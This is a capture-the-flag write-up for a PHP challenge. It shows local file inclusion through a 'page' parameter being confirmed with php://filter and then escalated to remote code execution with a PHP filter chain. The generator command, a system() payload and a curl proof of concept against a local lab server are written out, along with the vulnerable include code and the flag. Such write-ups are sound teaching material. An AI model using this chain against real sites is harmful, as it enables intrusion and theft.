









# Candy-Shop-3 — LFI → RCE

**Challenge:** Web (Local File Inclusion / PHP Filter Chain)  
**Difficulty:** Medium  
**Flag:** `Spark{lf1_t0_rce_typ3_8h1t}`

---

## Overview

LFI is a PHP application vulnerable to Local File Inclusion. The homepage hints the flag is at `/flag.txt`. But reading it isn't straightforward you'll need to go from LFI to full Remote Code Execution using PHP filter chains.

---

## Step 1: Recon

Open the app. You see a dark-themed site with a nav that uses `?page=home` and `?page=contact`:



The `page` parameter is clearly the attack surface. The badge even says **Local File Inclusion** a strong hint.

Let's check the `contact` page:



Nothing special just static content. Time to probe the LFI.

---

## Step 2: Confirming LFI with PHP Stream Wrappers

I tried `php://filter` to read the source without executing it:

```
GET /?page=php://filter/convert.base64-encode/resource=index.php
```

The response contained a base64 blob. Here's what the source revealed:



```php
<?php
$page = $_GET['page'] ?? 'home';
if (preg_match('/^[a-z]+$/', $page)) {
    include($page . '.php');
} else {
    include($page);
}
?>
```

The logic:
- If `$page` matches `^[a-z]+$` (only lowercase letters), it appends `.php` these are the legitimate pages
- For **everything else**, it includes the value **as-is** no `.php` suffix

The `php://filter` payload worked because it doesn't match the regex, so no `.php` was appended.



---

## Step 3: Trying to Read the Flag

The homepage said the flag is at `/flag.txt`. Let's try:



PHP error: file not found. Let's try `/flag.php`:



The page renders normally but the `<main>` tag is **empty**. The file exists but produces no output. When included, PHP executes it silently. The flag is probably a variable that's never echoed.

Let's read it through `php://filter` (which doesn't execute PHP, just reads raw bytes):



Decoding the base64:

```php
<?php $flag='Spark{lf1_t0_rce_typ3_8h1t}';?>
```

I can **see** the flag in the source, but I can't make the server output it through LFI alone. I need **Remote Code Execution** to run a command like `cat /flag.php`.

---

## Step 4: LFI → RCE via PHP Filter Chains

Normal LFI→RCE techniques were dead ends:
- **Log poisoning** Docker logs go to stdout, not disk files
- **php://input** requires `allow_url_include=On` (off by default)
- **Session poisoning** complex race conditions

The solution: **PHP filter chains** (Synacktiv's research).

The technique works like this:



1. Start with an empty stream (`php://temp`)
2. Apply `convert.iconv.*` encoding conversions — each produces specific byte sequences
3. Chain `convert.base64-encode|convert.base64-decode` to gradually build up the desired payload
4. The final `convert.base64-decode` turns the accumulated base64 into PHP code
5. PHP executes the generated code

This requires no filesystem writes and no special PHP configuration.

---

## Step 5: The Exploit

I used Synacktiv's PHP filter chain generator:

```bash
python3 php_filter_chain_generator.py --chain '<?php system("cat /flag.php");?>'
```

The tool outputs a chain like:
```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|...6000+ chars...|convert.base64-decode/resource=php://temp
```

Send it as the `page` parameter:

```bash
curl -s "http://127.0.0.1:3003/?page=php://filter/convert.iconv.UTF8.CSISO2022KR|...|convert.base64-decode/resource=php://temp"
```



The flag appears in the response:

 *(via base64 filter — for the actual RCE result see the curl PoC)*

**Flag:** `Spark{lf1_t0_rce_typ3_8h1t}`

---

## Key notes for Beginners

**PHP stream wrappers are powerful.** `php://filter` lets you read source code without executing it this is invaluable for understanding the application logic. The PHP filter chain technique turns a simple LFI into full RCE using nothing but stream filters. No files, no uploads, no special PHP settings just pure stream manipulation.

Always check if stream wrappers work when you see a `page` parameter!

---

## Contact

**Author : bangaalderson https://www.linkedin.com/in/bangaalderson/**
